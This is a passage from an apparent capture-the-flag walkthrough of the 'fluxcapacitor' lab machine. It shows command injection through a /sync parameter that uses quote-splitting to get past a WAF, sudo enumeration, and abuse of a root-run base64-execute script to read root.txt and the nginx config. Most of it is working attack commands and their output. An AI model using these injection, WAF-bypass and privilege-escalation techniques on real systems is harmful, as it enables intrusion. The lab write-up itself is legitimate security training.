 Since I can't get LinEnum up on the box, think about the things it
typically finds. sudo is a good place to start:



    root@kali# curl "10.10.10.69/sync?opt=' su''do -l'"
    Matching Defaults entries for nobody on fluxcapacitor:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User nobody may run the following commands on fluxcapacitor:
        (ALL) ALL
        (root) NOPASSWD: /home/themiddle/.monit
    bash: -c: option requires an argument

    root@kali# curl "10.10.10.69/sync?opt=' c''at /home/themiddle/.monit'"
    #!/bin/bash

    if [ "$1" == "cmd" ]; then
            echo "Trying to execute ${2}"
            CMD=$(echo -n ${2} | base64 -d)
            bash -c "$CMD"
    fi
    bash: -c: option requires an argument



So it looks like the current user can run
`sudo /home/themiddle/.monit cmd [base64 string]`, and that base64
string will be decodeed and run as root!



    root@kali# curl "10.10.10.69/sync?opt=' su''do /home/themiddle/.monit cmd $(echo cat /root/root.txt | base64)'"
    Trying to execute Y2F0IC9yb290L3Jvb3QudHh0Cg==
    [redacted]
    bash: -c: option requires an argument



## Other things to pull

Using this access, pull the webserver configuration:



    root@kali# curl "10.10.10.69/sync?opt=' sudo /home/themiddle/.monit cmd $(echo cat /usr/local/o*/n*/conf/ngin*f| base64)'" > nginx.conf



This defines the WAF and the functionality of the application:



    ...
    more_clear_headers 'Server';
    add_header Server 'SuperWAF';

    modsecurity on;
    location /sync {
     default_type 'text/plain';
